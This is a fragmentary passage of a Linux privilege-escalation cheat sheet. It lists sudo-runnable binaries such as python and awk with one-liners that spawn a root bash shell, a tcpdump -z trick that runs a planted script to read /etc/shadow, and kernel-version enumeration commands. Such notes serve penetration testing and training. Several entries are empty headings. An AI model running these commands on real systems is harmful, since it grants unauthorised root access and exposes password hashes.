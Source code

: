 ```
sudo python
import os
os.system("/bin/bash")
```

**nmap**

**awk**

```
awk 'BEGIN {system("/bin/bash")}'
```

**bash**

**sh**

**man**

**nc**

**netcat**

**ruby**

**lua**

**irb**

**tcpdump**

[https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

**emacs**

### Software vulnerabilites

Software vulnerabilites can lead to priv-esc, like vulnerabiliteis in:

* Kernel


  `uname -a`
  `uname -r`
  `/etc/issue*`
  `/etc/release`
  `cat /proc/version`

# RHEL/CentOS/Suse/Fedora

rpm -q kernel
